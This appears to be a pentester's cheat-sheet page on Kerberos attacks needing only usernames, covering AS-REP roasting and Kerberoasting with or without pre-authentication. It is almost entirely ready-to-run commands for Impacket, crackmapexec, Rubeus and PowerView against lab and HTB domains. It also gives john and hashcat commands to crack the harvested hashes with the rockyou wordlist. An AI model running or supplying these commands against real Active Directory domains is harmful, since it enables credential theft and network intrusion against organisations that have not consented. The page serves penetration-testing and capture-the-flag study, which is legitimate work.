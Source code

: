 ```yaml
---
description: Kerberos attack using username only. No credential is required.
---
```


# Kerberos Attack w/o password

### ASREProast

AS-REP roasting is a technique that allows retrieving password hashes for users that have Do not require Kerberos preauthentication property selected.

#### Linux

{% code overflow="wrap" %}
```bash
# Get ASREProastable credentials
GetNPUsers.py rebound.htb/ -usersfile users-rebound.htb.txt -format john
GetNPUsers.py oscp.lab/ -usersfile usernames.txt -format hashcat
GetNPUsers.py brute.com/ -usersfile users-brute.com.txt -dc-ip 172.31.3.3 -format john
GetNPUsers.py blackfield.local/ -usersfile users-blackfield.local.txt  -dc-ip $RHOST -format john -outputfile ./hash-ASREP.txt

# users list dynamically queried with an LDAP anonymous bind
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# With crackmapexec 
crackmapexec ldap rebound.htb -u users.txt -p '' --asreproast hash-ASREP.txt

# Crack the hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash-ASREP.txt
hashcat -m 18200 -a 0 hash-ASREP.txt /usr/share/wordlists/rockyou.txt --show
```
{% endcode %}

#### Windows

{% code overflow="wrap" %}
```bash
# Find AS-REP Roastable Users
PS> Get-DomainUser -PreauthNotRequired | select UserPrincipalName

# Windows
CMD> Rubeus.exe asreproast  /format:hashcat /outfile:hash-ASREP2.txt
```
{% endcode %}

### Kerberoast w/o password

{% code overflow="wrap" %}
```bash
# With userlist
sudo GetNPUsers.py iptracej.local/ -dc-ip 10.10.10.161 -usersfile usernames.txt

# With a single username 
GetNPUsers.py absolute.htb/d.klay -dc-ip 10.129.192.41 -no-pass -format hashcat
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
{% endcode %}



### Kerberoast w/o pre-authentication

If an attacker knows of an account for which pre-authentication isn't required (i.e. an [ASREProastable](broken-reference) account), as well as one (or multiple) service accounts to target, a Kerberoast attack can be attempted without having to control any Active Directory account (since pre-authentication won't be required).

#### Linux

{% code overflow="wrap" %}
```bash
# ThePorgs version should be used
# 
# pipenv shell
# git clone https://github.com/ThePorgs/impacket
# cd impacket/
# pip3 install .

GetUserSPNs.py rebound.htb/ -no-preauth jjones -usersfile users.txt -target-domain rebound.htb -dc-ip $RHOST
```
{% endcode %}

#### **Windows**

{% code overflow="wrap" %}
```bash
Rubeus.exe kerberoast /nopreauth:jjones /domain:rebound.htb /dc:dc01.rebound.htb /spns:./users.txt /nowrap
```
{% endcode %}

